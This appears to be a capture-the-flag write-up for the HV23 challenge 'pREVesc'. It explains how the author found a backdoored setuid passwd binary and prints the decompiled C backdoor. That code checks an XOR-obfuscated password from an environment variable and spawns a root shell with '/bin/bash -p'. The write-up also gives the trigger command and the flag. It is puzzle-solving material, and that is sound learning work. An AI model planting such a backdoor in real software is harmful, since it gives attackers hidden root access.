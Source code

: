 ## [HV23.15] pREVesc (coderion)
### Description
> We recently changed the root password for santa as he always broke our system. However, I think he has hidden some backdoor in there. Please help us find it to save christmas!
### Solution
When logging in with the provided credentials, you can find a "normal" ubuntu 23.04. Running [linPEAS]() sadly doesnt reveal to much. But when looking at the modified date of the setuid binaries, you can find that the passwd file seemed to be more recent than the others. You can then copy the binary with scp to your local machine. When you decompile the binary, you can find that when using the -E Argument the following code get called:
```c
case 'E':
	setuid(0);
	setgid(0);
	// secret password must be set
	// get SALAMI env
	char *salami = getenv("SALAMI");
	// if env is empty
	if (salami == NULL) {
		// set env
		puts("Why u givin' me no salami?!");
		exit(1);
	}
  int i;
	char key[] = "nevergonnagiveyouup";
  char xor_password[] = "";
  char output[6];

  for (i=0; i<6; i++) {
  	char temp = xor_password[i] ^ key[i];
  	output[i] = temp;
  }
	char password[] ={0x1b, 0x15, 0x18, 0x11, 0x1e, 0x53, 0x5c, 0x4e, 0x1b, 0x16, 0x1a, 0x47, 0x0a, 0x0e, 0x19, 0x15, 0x18, 0x0b, 0x16, 0x4f, 0x0f, 0x0e, 0x00, 0x46, 0x04, 0x00, 0x18, 0x02, 0x05, 0x56, 0x05, 0x5c, 0x08, 0x30, 0x1a, 0x5d, 0x04, 0x58, 0x3b, 0x06, 0x35, 0x0a, 0x22};

	char pw[43];    // pw=https://www.youtube.com/watch?v=dQw4w9WgXcQ
	for (int i = 0; i < sizeof(password); i++) {
		char tmp = password[i] ^ output[i % 6];
		pw[i] = tmp;
	}
	// check da env
	if (strcmp(salami, pw) != 0) {
		printf("Never gonna give you up!\nYou'll never escape the rickroll.");
		exit(1);
	}
	puts("Enjoy your salami!");

  system("/bin/bash -p");
```
When looking at the registers in gdb we can see that the password is: https://www.youtube.com/watch?v=dQw4w9WgXcQ.   
When you then execute 
```bash 
SALAMI=https://www.youtube.com/watch?v=dQw4w9WgXcQ passwd -E
```
 you get the flag.  
A solve.py can be found [here](./15-pREVesc/solve.py).  
  
Flag: **HV23{3v1l_p455wd}**   